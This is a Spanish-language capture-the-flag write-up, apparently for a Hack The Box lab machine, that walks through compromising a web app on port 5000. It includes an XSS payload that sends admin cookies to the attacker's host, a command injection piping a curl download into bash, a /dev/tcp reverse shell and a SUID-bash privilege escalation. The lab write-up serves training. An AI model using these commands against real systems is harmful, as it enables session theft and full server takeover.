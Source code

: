 
Primero realzaremos un escaneo de puertos con nmap.
`sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.8 -oN escaneo`
<img src"Pasted image 20240424100119.png">

Seguidamente al ver que esconde el puerto 5000, para ello introducimos la ip seguida de dos puntos con el puerto.
![[Pasted image 20240424100249.png]]

Vemos que esconde una web. Para ello haremos un fuzzing con dirsearch.
`dirsearch -u http://10.10.11.8:5000/`
![[Pasted image 20240424100701.png]]

Entraremos a ver que esconde la pagina support.
![[Pasted image 20240424100826.png]]

Veamos que tiene un formulario, veremos que hace si se lo rellenamos todo.
![[Pasted image 20240424101018.png]]

Que hay un overflow, cuando sucede esto, podemos atacarlo con XSS. Para ello abriremos burpsuite para interceptar la petición al servidor.
![[Pasted image 20240424101405.png]]

Una vez no tenemos, volveremos a nuestra consola, y abriremos un servidor python para que nos mande la cookie de sesión de administrador a nuestra máquina.
`python3 -m http.server 80`
![[Pasted image 20240424101532.png]]

Una vez estamos a la escucha, volveremos al burpsuite y pondremos la siguinte sintaxis de JavsScript en "User Agent" y en el el mensaje de abajo. 
`<img src=x onerror=fetch('http://10.10.14.68/?c='+document.cookie);>`
![[Pasted image 20240424101911.png]]

Lo mandaremos al repeter y lo enviaremos al rervidor, si todo va bien, en menos de un minuto nos tiene que dar la cookie de sesión en el servidor python.
![[Pasted image 20240424102247.png]]
Al ver este mensaje, es buena señal, así que iremos la consola y esperaremos un minuto.
![[Pasted image 20240424102342.png]]

Nos guardaremos la cookie para luego poder suplantarla. Cerraremos el burpsuite y volveremos a la paguina inicial de la web. Retomando el fuzzing de antes, a parte de suport, teniamos una página llamada dashboard, entraremos en ella.
![[Pasted image 20240424102646.png]]

Nos sale que no estamos autorizados, pero no hay problema porque tenemos la cookie de administrador, asi que solo nos queda suplantarla. Para ello iremos a inspeccionar --> storage.
![[Pasted image 20240424102839.png]]

Alli pegamos la nueva cookie en la que hay, de tal forma que se sobreescriba.
![[Pasted image 20240424102927.png]]

Reiniciaremos la página. Y veremos la página al 100%, ahora intentaremos poder conseguir la shell del servidor, para ello vamos a interceptar la peticion con burpsuite.
![[Pasted image 20240424103730.png]]

Irmos al la consola y crearemos un harchivo html con contenido bash para poder ejecutar una reverse shell en el servidor.
`#!/bin/bash`
`sh -i >& /dev/tcp/10.10.14.68/4444 0>&1`
![[Pasted image 20240424103933.png]]

Una vez lo tengamos, volveremos a encender un servidor python para poder hostear el archivo.
![[Pasted image 20240424104216.png]]

Abriremos otro terminal y nos pondremos a la escucha con netcat en el puerto que hemos elegido.
`nc -lvnp 4444`
![[Pasted image 20240424104342.png]]

Una vez lo tenemos, iremos al burpsuite y en date pondremos un ";" y pondremos el siguiente comando , lo mandaremos al repeter y lo enviaremos, con esto tendremos la shell.
`curl 10.10.14.68/index.html | bash`
![[Pasted image 20240424104600.png]]
![[Pasted image 20240424104625.png]]
Si al darle a enviar el botón send se nos pone de color gris, sera buena señal porque tendremos la shell.
![[Pasted image 20240424104714.png]]
En el dolar escribiremos el siguiente comando para ver la ruta.
`script /dev/null -c bash`
![[Pasted image 20240424104823.png]]

Con esto ya estaremos dentro, ahora buscaremos la flag de usuario.
![[Pasted image 20240424105032.png]]

Una vez la tenemos, solo nos quedará escalar privilegios, para ello vermos que binarios tienen permiso de root. 
`sudo -l`
![[Pasted image 20240424105222.png]]

Vemos que tiene este binario con permisos de administrador. Miraremos el contenido del binario para ver si obtenemos una pista.
`strings /usr/bin/syscheck`
![[Pasted image 20240424105522.png]]

Vemos que tiene un archivo bash, le añadiremos el script `chmod u+s /bin/bash` dentro de el archivo para poder ejecutar lo que queramos. Para ello haremos:
`echo "chmod u+s /bin/bash">initdb.sh`
![[Pasted image 20240424110607.png]]

Seguidamente, le daremos permisos al archivo bash y lo ejecutaremos.
![[Pasted image 20240424110733.png]]

Finalmente lo ejecutaremos.
`./initdb.sh`
![[Pasted image 20240424111034.png]]
Finalmente ejecutaremos un comando mas para tener acceso root.
`/bin/bash -p`
![[Pasted image 20240424111222.png]]
